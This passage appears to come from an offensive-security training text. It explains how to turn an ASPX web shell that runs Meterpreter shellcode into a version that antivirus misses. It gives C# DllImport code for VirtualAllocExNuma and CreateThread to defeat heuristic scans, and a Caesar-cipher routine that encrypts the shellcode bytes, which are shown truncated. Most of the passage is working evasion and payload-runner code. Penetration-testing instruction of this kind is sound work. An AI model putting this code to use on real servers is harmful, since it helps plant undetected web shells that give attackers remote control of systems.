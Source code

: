 ```
    }
</script>
```

> Listing 9 - Partial contents of met.aspx

The truncated content of met.aspx matches our previously-developed basic C# shellcode runner. As we know from previous efforts, this code is flagged by both signature and heuristics scans.

Fortunately, we developed an efficient bypass. We'll use a non-emulated API and encrypt the Meterpreter shellcode with a simple Caesar cipher.

Since we previously developed code for these techniques, we can refer back to our previous Visual Studio projects and quickly incorporate them into this web shell.

First, we'll copy the DllImport statements needed for _VirtualAllocExNuma_ and _GetCurrentProcess_ along with the code to call _VirtualAllocExNuma_ and parse its return value:

```
...
[System.Runtime.InteropServices.DllImport("kernel32")]
private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]
private static extern IntPtr GetCurrentProcess();

protected void Page_Load(object sender, EventArgs e)
{
    IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
    if(mem == null)
    {
        return;
    }
...
```

> Listing 10 - Code to bypass heuristics detection

Since the web shell does not import the _System.Runtime.InteropServices_ namespace at a global level, we'll include it in each _import_ statement.

Now we'll use our previously-developed code to encrypt the shellcode and arbitrarily use "5" as the Caesar cipher key.

```
byte[] buf = new byte[691] { 0xfc,0x48,0x83,0xe4,0xf0,... };

byte[] encoded = new byte[buf.Length];
for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)(((uint)buf[i] + 5) & 0xFF);
}

StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach (byte b in encoded)
{
    hex.AppendFormat("0x{0:x2}, ", b);
}

Console.WriteLine("The payload is: " + hex.ToString());
```
